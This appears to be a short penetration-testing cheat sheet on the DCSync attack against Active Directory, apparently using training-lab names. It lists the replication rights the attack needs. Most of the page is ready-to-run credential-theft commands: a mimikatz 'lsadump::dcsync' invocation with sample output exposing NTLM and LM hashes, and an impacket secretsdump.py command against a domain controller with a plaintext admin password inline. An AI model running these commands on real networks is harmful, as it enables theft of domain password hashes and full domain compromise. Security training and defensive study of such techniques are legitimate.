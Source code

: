 # DCSync

## Definition

DCSync : steal Active Directory password database by using the built-in Directory Replication Service Remote Protocol

To launch such a replication, a user needs to have the following rights :&#x20;

* _Replicating Directory Changes_
* _Replicating Directory Changes All_
* _Replicating Directory Changes in Filtered Set_

By default, following users have these rights assigned :&#x20;

* _Domain Admins_
* _Enterprise Admins_
* _Administrators_ groups

## From a windows domain-joined machine

```
.\mimikatz.exe

mimikatz # lsadump::dcsync /user:corp\dave
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
...
```

## From a Linux machine

```
secretsdump.py -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
